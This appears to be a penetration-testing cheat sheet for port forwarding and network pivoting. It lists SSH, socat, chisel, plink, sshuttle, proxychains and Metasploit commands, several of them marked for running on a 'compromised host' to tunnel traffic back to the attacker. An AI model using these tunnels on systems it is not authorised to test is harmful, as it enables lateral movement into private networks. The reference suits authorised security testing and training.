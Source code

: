 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```bash
ssh user@<IP> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```bash
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<IP>
```

### Socat - Port Forward
```powershell
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```bash
./chisel server -p <listen_port> --reverse &
```

-> Compromised Host
```bash
./chisel client <client_port>:<client_port> R:<local_port>:<target_IP>:<target_port> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```bash
./chisel server -p <listen_port>
```

-> Your Machine  
```bash
./chisel client <client_port>:<client_port> <local_port>:<target_IP>:<target_port>
```

### pklink - Remote Port Forward
```powershell
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```bash
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```bash
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```bash
./chisel server -p listen_port --reverse &
```
-> Compromised Host  
```bash
./chisel client <target_IP>:<listen_port> R:socks &
```

### chisel - Forward Proxy  
-> Compromised Host  
```bash
./chisel server -p <listen_port> --socks5
```
-> Your Machine  
```bash
./chisel client <target_P>:<listen_port> <proxy_port>:socks
```

### metasploit - proxying 
```bash
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```
